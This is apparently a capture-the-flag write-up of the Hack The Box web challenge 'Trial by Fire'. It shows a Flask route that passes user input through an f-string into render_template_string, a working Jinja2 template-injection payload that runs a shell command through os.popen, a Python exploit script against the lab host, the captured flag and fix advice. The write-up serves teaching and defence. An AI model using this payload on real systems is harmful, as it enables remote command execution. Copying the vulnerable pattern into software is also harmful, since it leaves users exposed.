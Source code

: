 ```yaml
---
title: "Trial by Fire"
date: 2025-03-29
description: "Behind the fiery illusion, a classic SSTI lays hidden. Here's how one template string doomed the Flame Peaks."
tags: ["Web", "CTF", "HTB"]
---
```


![Trial By Fire](https://github.com/Hacqueen-fr/hacqueen-fr.github.io/raw/refs/heads/main/assets/trialbyfire.png)

> *"The dragon never needed to breathe fire — it just needed an unescaped template string."*

---

## 🧩 Challenge Name

**Trial by Fire** — Jinja2 SSTI

---

## 📖 Storytime

You're thrown into a NES-style fantasy web world.  
Everything seems static — until you spot a user input field labeled `warrior_name`.

You enter `{{7*7}}`.

The game responds with:  
**“49”**.

The fire illusion cracks. SSTI confirmed.

---

## 🔍 Initial Observations

The application exposes a `/begin` endpoint where you submit your `warrior_name`, and a `/battle-report` page renders your performance and inputs.

---

## 🧠 Vulnerability Analysis (Source Code)

In `routes.py`, we find the `/battle-report` route building a dynamic template from **user-supplied data**:

```python
REPORT_TEMPLATE = f"""
...
<p class="nes-text is-primary warrior-name">{warrior_name}</p>
...
<p class="nes-text">{stats['outcome']}</p>
...
"""
return render_template_string(REPORT_TEMPLATE, **stats)
```

### ❌ Problem

- `warrior_name` is injected via **f-string** directly into `REPORT_TEMPLATE`
- Then the whole thing is passed to `render_template_string`, which invokes the **Jinja2 engine**
- This results in **double interpolation**:
    - First by Python (f-string)
    - Then by Jinja2 (via `render_template_string()`)

### 💥 Exploitable chain:

```text
User input → `warrior_name = "{{7*7}}"`  
→ f-string builds a string with `{{7*7}}`  
→ Jinja2 renders it → `49`
```

This allows arbitrary SSTI execution.

---

## 🛠️ Exploit Payload

Once SSTI was confirmed, we used this payload in `warrior_name`:

```jinja
{{url_for.__globals__['os'].popen('cat flag.txt').read()}}
```

---

## 🐍 Exploit Script

```python
import requests
import re

BASE_URL = "http://94.237.63.28:54398"
session = requests.Session()

payload = "{{url_for.__globals__['os'].popen('cat flag.txt').read()}}"
session.post(f"{BASE_URL}/begin", data={"warrior_name": payload})

data = {
    "battle_duration": "10",
    "damage_dealt": "999",
    "damage_taken": "0",
    "spells_cast": "5",
    "turns_survived": "13",
    "outcome": "victory"
}

resp = session.post(f"{BASE_URL}/battle-report", data=data)
html = resp.text

flag_match = re.search(r'HTB\{.*?\}', html)
if flag_match:
    print(f"🏁 FLAG TROUVÉ : {flag_match.group(0)}")
else:
    print("❌ Pas de flag.")
```

---

## 🏁 The Flag

```text
HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_7561b68252ca1d67c68357bea75f7386}
```

---

## ✅ Fix & Remediation

- ❌ **Don’t** use `render_template_string()` with dynamic f-strings and user input
- ✅ **Do** use `render_template("template.html", **context)`
- ✅ Escape user inputs properly or sanitize at input time

---

## 🧵 TL;DR

- SSTI confirmed via `{{7*7}}`
- Core vulnerability: `render_template_string(f"...{user_input}...")`
- Injected `os.popen()` to read `flag.txt`
- Retrieved flag instantly

---

❤️‍🔥 The only fire that matters is the one you light in the template engine.

**– Hacqueen**

